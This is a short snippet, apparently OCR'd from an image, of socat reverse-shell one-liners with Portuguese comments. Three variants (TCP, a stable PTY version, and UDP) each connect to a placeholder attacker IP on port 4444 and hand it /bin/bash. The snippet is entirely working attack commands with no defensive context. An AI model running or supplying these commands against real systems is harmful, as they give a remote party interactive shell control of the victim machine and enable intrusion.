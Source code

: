 # Conexão básica
socat TCP:SEU_IP:4444 EXEC:'/bin/bash'

# Versão mais estável
socat TCP:SEU_IP:4444 EXEC:'/bin/bash',pty,stderr,setsid

# UDP
socat UDP:SEU_IP:4444 EXEC:'/bin/bash'
